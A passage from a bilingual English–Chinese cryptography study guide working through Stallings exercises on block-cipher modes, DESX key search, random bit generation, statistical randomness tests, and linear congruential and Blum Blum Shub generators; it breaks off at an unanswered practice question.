(a) A corrupted \(C_1\) is used in \(P_1 = D(K, C_1) \oplus \mathrm{IV}\) (garbled completely, as \(D\) scrambles all bits) and in \(P_2 = D(K, C_2) \oplus C_1\) (only the bits of \(C_1\) that are in error are flipped in \(P_2\)). \(P_3 = D(K, C_3) \oplus C_2\) uses only \(C_2\) and \(C_3\). So no block beyond \(P_2\) is affected: the error stays within two blocks and the mode recovers by itself.（a）一个被破坏的 \(C_1\) 会用于 \(P_1 = D(K, C_1) \oplus \mathrm{IV}\)（被完全打乱，因为 \(D\) 会扰乱所有比特），也会用于 \(P_2 = D(K, C_2) \oplus C_1\)（只有 \(C_1\) 中出错的比特会在 \(P_2\) 中翻转）。\(P_3 = D(K, C_3) \oplus C_2\) 只用到 \(C_2\) 和 \(C_3\)。因此，\(P_2\) 之后的分组都不受影响：错误只停留在两个分组之内，模式会自行恢复。
(b) At the sender, \(C_1 = E(K, P_1 \oplus \mathrm{IV})\) is computed from the wrong \(P_1\), so \(C_1\) differs. Since \(C_2 = E(K, P_2 \oplus C_1)\) uses \(C_1\), \(C_2\) changes too, and so on: the error propagates through all following ciphertext blocks \(C_1, \dots, C_N\). At the receiver, however, the decryption is \(P_j = D(K, C_j) \oplus C_{j-1}\) with the received (self-consistent) ciphertext, so \(P_2, \dots, P_N\) are all recovered correctly. Only \(P_1\) is wrong, and it equals the erroneous source \(P_1\). The error is not made worse by the chaining.（b）在发送端，\(C_1 = E(K, P_1 \oplus \mathrm{IV})\) 由错误的 \(P_1\) 计算得出，因此 \(C_1\) 也不同。由于 \(C_2 = E(K, P_2 \oplus C_1)\) 要用到 \(C_1\)，\(C_2\) 也随之改变，依此类推：错误会传播到之后的所有密文分组 \(C_1, \dots, C_N\)。然而在接收端，解密使用的是收到的（自洽的）密文，即 \(P_j = D(K, C_j) \oplus C_{j-1}\)，因此 \(P_2, \dots, P_N\) 都能被正确恢复。只有 \(P_1\) 是错的，而且它等于出错的源端 \(P_1\)。链式结构并没有让错误变得更严重。
思路：解密只依赖相邻两个密文块，所以接收端错误只影响两块；发送端明文错误会改变之后所有密文块，但解密后只有 P1 错。
E14. (Problem 7.6, Stallings) DESX encrypts a message \(m\) with keys \(k_1\), \(k_2\) and \(k_3\) of size 64, 56 and 64 bits as \(\text{DES-X}(k_1, k_2, k_3, m) = k_1 \oplus \text{DES}(k_2, m \oplus k_3)\). Show that it gives only 120 bits of security against key search when the attacker has a few plaintext-ciphertext pairs.E14.（习题 7.6，Stallings）DESX 用密钥 \(k_1\)、\(k_2\) 和 \(k_3\)（长度分别为 64、56 和 64 位）把消息 \(m\) 加密为 \(\text{DES-X}(k_1, k_2, k_3, m) = k_1 \oplus \text{DES}(k_2, m \oplus k_3)\)。证明：当攻击者拥有少量明文-密文对时，它只能提供 120 位的抗密钥搜索安全性。
Answer
The total key length is \(64 + 56 + 64 = 184\) bits, but an attacker with known pairs does not need to search all of them. Let \((m_1, c_1)\) and \((m_2, c_2)\) be two known pairs, with \(c_i = k_1 \oplus \mathrm{DES}(k_2, m_i \oplus k_3)\).总密钥长度为 \(64 + 56 + 64 = 184\) 位，但拥有已知明文对的攻击者并不需要搜索全部密钥。设 \((m_1, c_1)\) 和 \((m_2, c_2)\) 是两个已知对，且 \(c_i = k_1 \oplus \mathrm{DES}(k_2, m_i \oplus k_3)\)。
- Guess \(k_1\) (\(2^{64}\) values) and \(k_2\) (\(2^{56}\) values).猜测 \(k_1\)（\(2^{64}\) 个取值）和 \(k_2\)（\(2^{56}\) 个取值）。
- Compute \(\mathrm{DES}^{-1}(k_2, c_1 \oplus k_1) = m_1 \oplus k_3\) and hence \(k_3 = m_1 \oplus \mathrm{DES}^{-1}(k_2, c_1 \oplus k_1)\). For the guessed \((k_1, k_2)\) this value is forced.计算 \(\mathrm{DES}^{-1}(k_2, c_1 \oplus k_1) = m_1 \oplus k_3\)，进而得到 \(k_3 = m_1 \oplus \mathrm{DES}^{-1}(k_2, c_1 \oplus k_1)\)。对于猜出的 \((k_1, k_2)\)，这个值是唯一确定的。
- Test the triple \((k_1, k_2, k_3)\) on the second pair. A wrong triple passes with probability about \(2^{-64}\), so the right key is identified.用第二个明文对检验三元组 \((k_1, k_2, k_3)\)。错误的三元组通过检验的概率约为 \(2^{-64}\)，因此可以识别出正确的密钥。
The number of trials is \(2^{64} \cdot 2^{56} = 2^{120}\), each costing a few DES operations, rather than \(2^{184}\). Thus the security is at most 120 bits. With \(k_1 = k_3\) (Rivest's suggestion) the key has \(64 + 56 = 120\) bits, so nothing is lost by shortening the key; the strength is still about 120 bits against this attack.试验次数为 \(2^{64} \cdot 2^{56} = 2^{120}\)，每次只需几次 DES 运算，而不是 \(2^{184}\)。因此安全性至多为 120 位。采用 \(k_1 = k_3\)（Rivest 的建议）时，密钥长度为 \(64 + 56 = 120\) 位，所以缩短密钥并不会损失什么；针对这种攻击，其强度仍约为 120 位。
思路：猜 k1、k2 后 k3 由一对已知明密文直接算出，所以只需 \(2^{120}\)。
E15. (Problem 7.9, Stallings) Is it possible to parallelize encryption in the CFB mode? What about decryption?E15.（习题 7.9，Stallings）CFB 模式下的加密能否并行化？解密呢？
Answer
Full-block CFB is defined by \(C_j = P_j \oplus E(K, C_{j-1})\) with \(C_0 = \mathrm{IV}\), and \(P_j = C_j \oplus E(K, C_{j-1})\).全分组 CFB 的定义为 \(C_j = P_j \oplus E(K, C_{j-1})\)，其中 \(C_0 = \mathrm{IV}\)，且 \(P_j = C_j \oplus E(K, C_{j-1})\)。
Encryption cannot be parallelized: the input of the \(j\)-th block-cipher call is \(C_{j-1}\), which is available only after \(P_{j-1}\) has been encrypted. The calls form a sequential chain.加密无法并行化：第 \(j\) 次分组密码调用的输入是 \(C_{j-1}\)，而它只有在 \(P_{j-1}\) 加密完成之后才可用。这些调用形成一条顺序链。
Decryption can be parallelized: all ciphertext blocks \(C_1, \dots, C_N\) are already known at the receiver, so all the values \(E(K, C_{j-1})\) can be computed at the same time, and the XORs with \(C_j\) then give all \(P_j\). The same holds for CBC (encryption sequential, decryption parallel). It shows that for CFB and CBC only the receiving side gains speed from multiple cipher units, while CTR allows both.解密可以并行化：接收端已经知道所有密文分组 \(C_1, \dots, C_N\)，因此所有的值 \(E(K, C_{j-1})\) 可以同时计算，然后与 \(C_j\) 异或即可得到全部 \(P_j\)。CBC 也是如此（加密是顺序的，解密是并行的）。这说明对于 CFB 和 CBC，只有接收方能借助多个分组密码单元提速，而 CTR 两方都能提速。
思路：加密时下一块的输入是上一块密文，只能串行；解密时密文都已知，可并行。
E16. (Problem 20.10, Stallings & Brown) Fill in the encryption and decryption equations of the modes CBC, CFB and CTR, in the notation of ECB, where \(C_j = E(K, P_j)\) and \(P_j = D(K, C_j)\), \(j = 1, \dots, N\). (Use full-block CFB and counters \(T_1, \dots, T_N\).)E16.（习题 20.10，Stallings & Brown）用 ECB 的记号写出 CBC、CFB 和 CTR 模式的加密与解密方程，其中 \(C_j = E(K, P_j)\) 和 \(P_j = D(K, C_j)\)，\(j = 1, \dots, N\)。（CFB 使用全分组形式，计数器为 \(T_1, \dots, T_N\)。）
Answer
- CBC. Encrypt: \(C_1 = E(K, P_1 \oplus \mathrm{IV})\) and \(C_j = E(K, P_j \oplus C_{j-1})\) for \(j = 2, \dots, N\). Decrypt: \(P_1 = D(K, C_1) \oplus \mathrm{IV}\) and \(P_j = D(K, C_j) \oplus C_{j-1}\) for \(j = 2, \dots, N\).CBC. 加密：\(C_1 = E(K, P_1 \oplus \mathrm{IV})\) 与 \(C_j = E(K, P_j \oplus C_{j-1})\)，用于 \(j = 2, \dots, N\)。解密：\(P_1 = D(K, C_1) \oplus \mathrm{IV}\) 与 \(P_j = D(K, C_j) \oplus C_{j-1}\)，用于 \(j = 2, \dots, N\)。
- CFB. Encrypt: \(C_1 = P_1 \oplus E(K, \mathrm{IV})\) and \(C_j = P_j \oplus E(K, C_{j-1})\) for \(j = 2, \dots, N\). Decrypt: \(P_1 = C_1 \oplus E(K, \mathrm{IV})\) and \(P_j = C_j \oplus E(K, C_{j-1})\) for \(j = 2, \dots, N\).CFB. 加密：\(C_1 = P_1 \oplus E(K, \mathrm{IV})\) 与 \(C_j = P_j \oplus E(K, C_{j-1})\)，用于 \(j = 2, \dots, N\)。解密：\(P_1 = C_1 \oplus E(K, \mathrm{IV})\) 与 \(P_j = C_j \oplus E(K, C_{j-1})\)，用于 \(j = 2, \dots, N\)。
- CTR. Encrypt: \(C_j = P_j \oplus E(K, T_j)\) for \(j = 1, \dots, N\). Decrypt: \(P_j = C_j \oplus E(K, T_j)\) for \(j = 1, \dots, N\).CTR. 加密：\(C_j = P_j \oplus E(K, T_j)\)，用于 \(j = 1, \dots, N\)。解密：\(P_j = C_j \oplus E(K, T_j)\)，用于 \(j = 1, \dots, N\)。
CBC decryption inverts the chain: \(D(K, C_j) = P_j \oplus C_{j-1}\), so the XOR with \(C_{j-1}\) is done after \(D\). In CFB and CTR the cipher output is only a keystream, so decryption uses \(E\), not \(D\), and is the same XOR as encryption. In CTR the last block may be partial: the keystream block is truncated to the length of the final plaintext block. It shows that CBC is the only one of the three that needs the decryption function.CBC 解密是把链反过来：先做 \(D(K, C_j) = P_j \oplus C_{j-1}\)，所以与 \(C_{j-1}\) 的异或要在 \(D\) 之后进行。在 CFB 和 CTR 中，分组密码的输出只是一个密钥流，因此解密使用 \(E\) 而不是 \(D\)，并且与加密做同样的异或运算。在 CTR 中，最后一个分组可能不完整：密钥流分组要截断到最后一个明文分组的长度。这说明三者中只有 CBC 需要解密函数。
思路：CBC 先 XOR 再加密；CFB、CTR 用 E 产生密钥流再 XOR，加解密对称。
E17. (Problem 20.14, Stallings & Brown) If a bit error occurs in the transmission of a ciphertext character in 8-bit CFB mode, how far does the error propagate? (Assume a 64-bit block cipher.)E17.（习题 20.14，Stallings & Brown）在 8 位 CFB 模式下，如果发送密文字符时出现一个比特错误，错误会传播多远？（假设使用 64 位分组密码。）
Answer
In 8-bit CFB the shift register holds the last 64 bits of ciphertext, that is, the last eight ciphertext characters. Each new ciphertext character is shifted in at the right, and the oldest one leaves at the left. The plaintext character is \(P = C \oplus (\text{leftmost 8 bits of } E(K, \text{register}))\).在 8 位 CFB 中，移位寄存器保存最近的 64 位密文，也就是最近的八个密文字符。每个新的密文字符从右侧移入，最旧的字符从左侧移出。明文字符为 \(P = C \oplus (\text{leftmost 8 bits of } E(K, \text{register}))\)。
- When the damaged character \(C_i\) arrives, the plaintext \(P_i\) is wrong in exactly the flipped bit(s), because \(C_i\) enters only the XOR.当受损的字符 \(C_i\) 到达时，明文 \(P_i\) 只在被翻转的比特上出错，因为 \(C_i\) 只进入异或运算。
- \(C_i\) then enters the shift register and stays in it for the next eight characters. While it is in the register, the encryption input differs, so the keystream bytes are completely different (garbage), and \(P_{i+1}, \dots, P_{i+8}\) are garbled.\(C_i\) 随后进入移位寄存器，并在其中停留接下来的八个字符。它在寄存器中时，加密输入不同，因此密钥流字节完全不同（成了乱码），\(P_{i+1}, \dots, P_{i+8}\) 也就都被打乱了。
- After eight shifts the damaged character has left the register and decryption is correct again (self-synchronisation).经过八次移位后，受损的字符已经移出寄存器，解密重新恢复正确（自同步）。
The error therefore affects the current character and the following eight characters, nine characters in total (in general \(1 + b/8\) for a \(b\)-bit register).因此，错误影响的是当前字符以及随后的八个字符，共九个字符（一般地，对于 \(b\) 位寄存器，共影响 \(1 + b/8\) 个字符）。
思路：错误字节在 64 位寄存器里停留 8 次移位，所以共 9 个字符受影响。
Chapter 8Random Bit Generation and Stream Ciphers随机比特生成与流密码Reading: Stallings (Crypto) Ch. 8; Stallings & Brown 2.5, 20.4
Random numbers and the PRNG model ★★★随机数与 PRNG 模型
Goal. Say what makes a bit sequence usable for cryptography. Tell a TRNG, a PRNG and a PRF apart. Explain why the seed of a PRNG must be secret, and apply the frequency test and the runs test by hand.目标。说明什么样的比特序列才可用于密码学。区分 TRNG、PRNG 和 PRF。解释 PRNG 的种子为什么必须保密，并手工应用频数检验和游程检验。
Step 1: what cryptography needs from random bits第 1 步：密码学对随机比特的要求
In words: random bits must look uniform and independent, and nobody may be able to guess the next one.用文字表述：随机比特必须看起来均匀且独立，并且没有人能够猜出下一个比特。
Cryptography uses random bits in four places: nonces, session keys, key-generation inputs such as the primes of RSA (Chapter 9), and the keystream of a stream cipher (Section 8.4). Two requirements apply, and they are different.密码学在四个地方使用随机比特：nonce、会话密钥、密钥生成的输入（例如 RSA 的素数，见第 9 章），以及流密码的密钥流（见第 8.4 节）。对此有两项要求，而且它们是不同的。
- Randomness（随机性）is statistical. The sequence has a uniform distribution (ones and zeros about equally frequent) and independence (no subsequence can be inferred from the others).随机性是统计性质。序列应具有均匀分布（0 和 1 出现的频率大致相同），并且具有独立性（不能由其他部分推断出任何子序列）。
- Unpredictability（不可预测性）means a later element cannot be guessed from earlier ones. A truly random sequence is independent, hence unpredictable. A deterministic sequence that merely looks random need not be.不可预测性是指后面的元素不能由前面的元素猜出。真正随机的序列是独立的，因此是不可预测的。一个确定性的、只是看起来随机的序列则未必不可预测。
The output must stay secret. A known keystream gives the plaintext, and a non-random 128-bit key shrinks the brute-force search below \(2^{128}\).输出必须保持秘密。已知的密钥流会直接得出明文，而非随机的 128 位密钥会使穷举搜索的代价低于 \(2^{128}\)。
Step 2: TRNG, PRNG and PRF第 2 步：TRNG、PRNG 和 PRF
In words: a TRNG measures noise, a PRNG stretches a seed by a fixed recipe, and a PRF does the same but returns a short fixed-length value.用文字表述：TRNG 测量噪声，PRNG 按固定方法扩展种子，PRF 做同样的事情，但返回一个固定长度的短值。


- A true random number generator (TRNG)（真随机数发生器）turns an entropy source（熵源）into bits. Sources are keystroke timing, disk activity, mouse movement, thermal noise or the system clock. It is nondeterministic.真随机数生成器（TRNG）把熵源转换为比特。熵源包括击键时间、磁盘活动、鼠标移动、热噪声或系统时钟。它是非确定性的。
- A pseudorandom number generator (PRNG)（伪随机数发生器）, also called a deterministic random bit generator (DRBG), expands a seed with a deterministic algorithm. It usually feeds part of its output back into its state. It gives an open-ended stream, for example a stream-cipher keystream.伪随机数生成器（PRNG）也称确定性随机比特生成器（DRBG），它用确定性算法扩展种子。它通常把部分输出反馈回自己的状态中。它给出一个没有固定终点的比特流，例如流密码的密钥流。
- A pseudorandom function (PRF)（伪随机函数）uses the same algorithms but returns a fixed-length string, such as a key or a nonce. Its input is a seed plus context values, such as a user or application ID. PRFs appear in TLS and IPsec (Chapters 19 and 20).伪随机函数（PRF）使用相同的算法，但返回固定长度的字符串，例如密钥或一次性随机数。它的输入是一个种子加上上下文值，例如用户或应用的 ID。PRF 出现在 TLS 和 IPsec 中（见第 19 和 20 章）。
Apart from the output length, PRNG and PRF are the same. The output is fixed by the seed, so an adversary who knows the algorithm and the seed reproduces everything.除输出长度外，PRNG 和 PRF 是一样的。输出由种子唯一确定，因此知道算法和种子的攻击者能够复现全部输出。
Step 3: requirements on a PRNG第 3 步：对 PRNG 的要求
In words: a good PRNG passes statistical tests, and in addition nobody without the seed can predict the output.用文字表述：好的 PRNG 要通过统计检验，此外，没有种子的人无法预测其输出。
Randomness. No single test certifies a generator, and independence can be refuted but never proved. One therefore applies many tests. NIST SP 800-22 specifies 15 tests. They look for three properties.随机性。没有任何单一检验能够证明一个生成器合格，独立性只能被否定，而无法被证明。因此人们会应用多种检验。NIST SP 800-22 规定了 15 项检验。它们主要考察三个性质。
- Uniformity: each bit is 1 with probability exactly 1/2, so about \(n/2\) ones appear in \(n\) bits.均匀性：每个比特为 1 的概率恰好为 1/2，因此在 \(n\) 个比特中大约出现 \(n/2\) 个 1。
- Scalability: every subsequence extracted at random passes the same tests.可扩展性：随机抽取的每个子序列都能通过相同的检验。
- Consistency: the behaviour holds for every seed, so the output of one seed is never enough to judge a generator.一致性：对每个种子都成立，因此仅凭一个种子的输出不足以判断一个生成器。
Three of the tests are named most often.其中三项检验最常被用到。
| Test检验 | Purpose目的 |
|---|---|
| Frequency频数检验 | number of ones and zeros close to \(n/2\); the basic test every suite includes0 与 1 的个数接近 \(n/2\)；所有检验套件都包含的基础检验 |
| Runs游程检验 | number of runs (maximal blocks of identical bits) of each length as expected各长度游程（极大的相同比特块）的个数符合预期 |
| Maurer's universalMaurer 通用检验 | distance between repeated patterns; a compressible sequence is not random重复模式之间的距离；可压缩的序列不是随机的 |
How to do it by hand: 1. Count the ones. For \(n\) bits, expect about \(n/2\). 2. Count the runs. A run is a maximal block of identical bits, and a random sequence has about \((n+1)/2\) runs. 3. A count far from the expected value means the test is failed.手工做法：1. 数 1 的个数。对于 \(n\) 个比特，预期约为 \(n/2\)。2. 数游程。游程是由相同比特组成的最大连续块，随机序列大约有 \((n+1)/2\) 个游程。3. 如果计数明显偏离预期值，则判定该检验未通过。
Unpredictability. There are two forms.不可预测性。它有两种形式。
- Forward unpredictability: without the seed, the next bit cannot be predicted from all previous bits.前向不可预测性：在没有种子的情况下，无法由之前的所有比特预测下一个比特。
- Backward unpredictability: the seed cannot be recovered from generated values, and no correlation between seed and output is visible.后向不可预测性：无法从已生成的值中恢复种子，并且种子与输出之间也看不出任何相关性。
The randomness tests also serve as unpredictability tests, because a predictable bit would be a pattern. This is only empirical evidence. The LCG of Section 8.2 passes statistical tests, yet algebra breaks it.随机性检验同时也可作为不可预测性检验，因为可预测的比特意味着存在某种规律。但这只是经验证据。第 8.2 节的 LCG 能通过统计检验，然而代数方法可以将其破解。
Seed. The seed must itself be unpredictable. It is normally drawn from a TRNG, which is the structure recommended in SP 800-90A. A PRNG is still used for three reasons.种子。种子本身必须是不可预测的。它通常取自 TRNG，这是 SP 800-90A 推荐的结构。但仍然会使用 PRNG，理由有三点。
- A TRNG keystream as long as the message would have to be delivered to the receiver securely. A PRNG needs only a 128- or 256-bit key to be shared.TRNG 产生的、与消息等长的密钥流必须安全地送到接收方。PRNG 则只需共享一个 128 或 256 位的密钥。
- TRNG bits may be biased, and the PRNG conditions them.TRNG 的比特可能有偏，PRNG 对它们进行调理。
- A TRNG may be too slow.TRNG 可能太慢。
PRNGs are either purpose-built (the generators of Section 8.2, RC4) or built on a cryptographic primitive that already randomises its input: a block cipher (CTR_DRBG), a hash function (Hash_DRBG) or a MAC (HMAC_DRBG). Four NIST documents recur.PRNG 要么是专门设计的（第 8.2 节的生成器、RC4），要么建立在一个本身就能随机化其输入的密码原语之上：分组密码（CTR_DRBG）、哈希函数（Hash_DRBG）或 MAC（HMAC_DRBG）。NIST 有四份经常被引用的文档。
| Document文件 | Content内容 |
|---|---|
| SP 800-90A | deterministic random bit generators (DRBGs)确定性随机比特生成器（DRBG） |
| SP 800-90B | entropy sources (TRNGs) and their health tests熵源（TRNG）及其健康检测 |
| SP 800-90C | constructions that combine 90B sources with 90A DRBGs结合 90B 熵源与 90A DRBG 的构造 |
| SP 800-22 | statistical test suite for random and pseudorandom generators随机与伪随机生成器的统计检验套件 |
Practice练习
Q1. (Definitions) State the two criteria for the randomness of a sequence and the two forms of unpredictability of a PRNG. Which of these can be established by a test?Q1.（定义）陈述序列随机性的两条准则，以及 PRNG 不可预测性的两种形式。其中哪些可以通过检验来确立？
Answer
Randomness: uniform distribution (ones and zeros about equally frequent) and independence (no subsequence can be inferred from the others). Unpredictability: forward (without the seed the next bit cannot be predicted from earlier bits) and backward (the seed cannot be recovered from generated values; no seed-output correlation). Uniformity can be tested against a distribution. Independence cannot be proved: many tests are applied and confidence grows if none refutes it, and unpredictability is supported the same way.随机性：均匀分布（0 和 1 出现的频率大致相等）与独立性（任何子序列都无法由其他部分推出）。不可预测性：前向（在不知道种子的情况下，无法根据先前的比特预测下一比特）与后向（无法从生成的值中恢复种子；种子与输出之间无相关性）。均匀性可以对照某一分布进行检验。独立性无法被证明：应用大量检验，若没有一项将其推翻，则置信度随之提高；不可预测性也以同样方式获得支持。
Q2. (Calculation) Apply the frequency test and the runs test to \(S_1=0101010101010101\) and \(S_2=1100100100001111\). A random 16-bit sequence has about 8 ones and about \((16+1)/2=8.5\) runs. What do you conclude?Q2.（计算）对 \(S_1=0101010101010101\) 和 \(S_2=1100100100001111\) 分别进行频数检验与游程检验。一个随机的 16 比特序列大约有 8 个 1 和大约 \((16+1)/2=8.5\) 个游程。你的结论是什么？
Answer
\(S_1\) has 8 ones, so it passes the frequency test, but every bit starts a new run: 16 runs, far above 8.5. It fails the runs test; the bits alternate perfectly and are not independent. \(S_2\) has 8 ones and 7 runs (11, 00, 1, 00, 1, 0000, 1111), both near expectation, so it passes both tests (16 bits give little confidence). One test is never enough: \(S_1\) is uniform yet not random.\(S_1\) 有 8 个 1，因此通过频数检验，但每个比特都开始一个新游程：共 16 个游程，远高于 8.5。它未通过游程检验；比特完全交替出现，并不独立。\(S_2\) 有 8 个 1 和 7 个游程（11、00、1、00、1、0000、1111），二者都接近期望值，因此两项检验均通过（16 个比特提供的置信度较低）。单一检验从来不够：\(S_1\) 是均匀的，却并不随机。
Q3. (True/false) "A stream cipher should take its keystream directly from a TRNG, because true randomness is stronger." Justify.Q3.（判断）“流密码应直接从 TRNG 获取其密钥流，因为真随机性更强。”请说明理由。
Answer
False as a design. A truly random keystream as long as the message is a one-time pad, and the receiver cannot regenerate it: the whole keystream would have to be delivered securely, which is as hard as delivering the message. With a PRNG only the 128- or 256-bit key is shared. A TRNG is also slow and may be biased; it is used to produce the seed or key.作为设计方案是错误的。与消息等长的真随机密钥流就是一次一密，而接收方无法重新生成它：整个密钥流必须安全地送达，这与送达消息本身一样困难。使用 PRNG 时，只需共享 128 或 256 比特的密钥。TRNG 还很慢，并可能有偏；它用于生成种子或密钥。
思路：TRNG 不可复现，收发双方没法共享；PRNG 只需共享短密钥。
Linear congruential and Blum Blum Shub generators ★★★线性同余生成器与 Blum Blum Shub 生成器
Goal. Run the linear congruential generator and recover its parameters from three outputs. Compute Blum Blum Shub bits by hand. State why one generator is broken and the other is secure.目标。运行线性同余生成器，并由三个输出恢复其参数。手工计算 Blum Blum Shub 比特。说明为什么一个生成器被破解，而另一个是安全的。
Step 1: the linear congruential generator第 1 步：线性同余生成器
In words: an LCG multiplies the last number, adds a constant and keeps the remainder.用文字表述：LCG 把上一个数乘以一个常数，加上另一个常数，再取余数。
The linear congruential generator (LCG)（线性同余发生器）has four integers: the modulus \(m\), the multiplier \(a\), the increment \(c\) and the seed \(X_0\).线性同余生成器（LCG）有四个整数：模数 \(m\)、乘数 \(a\)、增量 \(c\) 和种子 \(X_0\)。
The period depends on the multiplier. Take \(c=0\), \(m=32\) and \(X_0=1\). With \(a=7\) the sequence is \(7,17,23,1,7,\dots\) and only 4 of the 32 values occur. With \(a=5\) it is \(5,25,29,17,21,9,13,1,5,\dots\) and the period is 8. Neither is satisfactory.周期取决于乘数。取 \(c=0\)、\(m=32\) 和 \(X_0=1\)。当 \(a=7\) 时，序列为 \(7,17,23,1,7,\dots\)，32 个值中只出现 4 个。当 \(a=5\) 时，序列为 \(5,25,29,17,21,9,13,1,5,\dots\)，周期为 8。两者都不理想。
A good generator passes three tests.一个好的生成器要通过三项检验。
- T1: full period, that is, all of \(0,\dots,m-1\) before the sequence repeats.T1：周期为满周期，即在序列重复之前经过 \(0,\dots,m-1\) 全部取值。
- T2: the sequence appears random.T2：序列看起来是随机的。
- T3: efficient implementation with 32-bit arithmetic.T3：可以用 32 位算术高效实现。
If \(m\) is prime and \(c=0\), suitable \(a\) give period \(m-1\), because only 0 is missing. For \(m=2^{31}-1\) only a handful of multipliers pass all three tests. The classic one is \(a=7^5=16807\). It gives \(X_{n+1}=16807\,X_n\bmod(2^{31}-1)\) with \(X_1=16807\) and \(X_2=282475249\) from \(X_0=1\). It suits simulation, not cryptography.如果 \(m\) 是素数，并且 \(c=0\)，则适当的 \(a\) 可以给出周期 \(m-1\)，因为只缺少 0。对于 \(m=2^{31}-1\)，只有少数几个乘数能通过全部三项检验。经典的一个是 \(a=7^5=16807\)，它给出 \(X_{n+1}=16807\,X_n\bmod(2^{31}-1)\)，其中 \(X_1=16807\) 和 \(X_2=282475249\) 取自 \(X_0=1\)。它适合模拟，不适合密码学。
For \(c\ne0\) the LCG has full period \(m\) if and only if three conditions hold (Hull–Dobell theorem).对于 \(c\ne0\)，当且仅当三个条件同时成立时，LCG 具有满周期 \(m\)（Hull–Dobell 定理）。
- \(\gcd(c,m)=1\), that is, \(c\) and \(m\) share no factor.\(\gcd(c,m)=1\)，即 \(c\) 与 \(m\) 没有公因子。
- \(a-1\) is divisible by every prime factor of \(m\).\(a-1\) 能被 \(m\) 的每个素因子整除。
- \(a-1\) is divisible by 4 when 4 divides \(m\).如果 4 整除 \(m\)，则 \(a-1\) 能被 4 整除。
Step 2: why the LCG is broken第 2 步：为什么 LCG 会被破解
In words: everything follows from the seed and three numbers, and three outputs reveal the numbers.用文字表述：一切都由种子和三个数决定，而三个输出就能把这三个数暴露出来。
If the parameters are known, one output reveals all later ones. Even if the opponent only knows that an LCG is used, a few outputs give the parameters. When \(m\) is known, three consecutive outputs are enough.如果参数已知，一个输出就能揭示之后所有的输出。即使对手只知道使用的是 LCG，几个输出也足以得到参数。当 \(m\) 已知时，三个连续输出就足够了。
How to do it by hand: 1. Compute the two differences modulo \(m\). 2. Find the inverse of the second difference with Euclid's algorithm. 3. Multiply to get \(a\). 4. Get \(c\) from \(X_1-aX_0\). 5. Check with the next output.手工做法：1. 计算两个差值模 \(m\)。2. 用欧几里得算法求第二个差值的逆元。3. 相乘得到 \(a\)。4. 由 \(c\) 得到 \(X_1-aX_0\)。5. 用下一个输出进行检验。
Step 3: the Blum Blum Shub generator第 3 步：Blum Blum Shub 生成器
In words: BBS squares a number again and again modulo n and outputs the last bit of each square.用文字表述：BBS 对一个数模 n 反复平方，并输出每个平方结果的最低比特。
The Blum Blum Shub (BBS) generator（BBS 发生器）has perhaps the strongest public proof of cryptographic strength of any purpose-built PRNG. Choose two large secret primes \(p\) and \(q\) with \(p\equiv q\equiv3\pmod4\). Let \(n=pq\). Take a seed \(s\) that is relatively prime to \(n\), that is, \(\gcd(s,n)=1\).Blum Blum Shub（BBS）生成器在专门设计的 PRNG 中，可能有最强的公开密码学强度证明。选取两个大的秘密素数 \(p\) 和 \(q\)，满足 \(p\equiv q\equiv3\pmod4\)。令 \(n=pq\)。取一个与 \(n\) 互素的种子 \(s\)，即 \(\gcd(s,n)=1\)。
How to do it by hand: 1. Check \(p\bmod4=q\bmod4=3\) and \(\gcd(s,n)=1\). 2. Compute \(n=pq\) and \(X_0=s^2\bmod n\). 3. Square the previous value modulo \(n\) each step. 4. The bit is the parity of each \(X_i\).手工做法：1. 检验 \(p\bmod4=q\bmod4=3\) 和 \(\gcd(s,n)=1\)。2. 计算 \(n=pq\) 和 \(X_0=s^2\bmod n\)。3. 每一步把上一个值模 \(n\) 平方。4. 每个输出比特是 \(X_i\) 的奇偶性。
BBS is a cryptographically secure pseudorandom bit generator (CSPRBG)（密码学安全伪随机比特发生器）. It passes the next-bit test（下一比特测试）: no polynomial-time algorithm that sees the first \(k\) output bits can predict bit \(k+1\) with probability significantly greater than 1/2. Its security rests on the difficulty of factoring \(n\) into \(p\) and \(q\) (Section 9.5). The price is speed, because every output bit costs a modular squaring of a large number.BBS 是一个密码学安全伪随机比特生成器（CSPRBG）。它通过下一比特测试：不存在多项式时间算法，能在看到前 \(k\) 个输出比特后，以显著大于 1/2 的概率预测第 \(k+1\) 个比特。它的安全性依赖于分解 \(n\) 为 \(p\) 和 \(q\) 的困难性（见第 9.5 节）。代价是速度慢，因为每个输出比特都需要对一个大数做一次模平方。
Practice练习
Q1. (Calculation) An LCG with known modulus \(m=31\) outputs \(X_0=7\), \(X_1=26\), \(X_2=21\), seen by an eavesdropper. Recover \(a\) and \(c\) and predict \(X_3\) and \(X_4\).Q1.（计算）模数 \(m=31\) 已知的 LCG 输出 \(X_0=7\)、\(X_1=26\)、\(X_2=21\)，其输出被窃听者看到。求出 \(a\) 与 \(c\)，并预测 \(X_3\) 和 \(X_4\)。
Answer
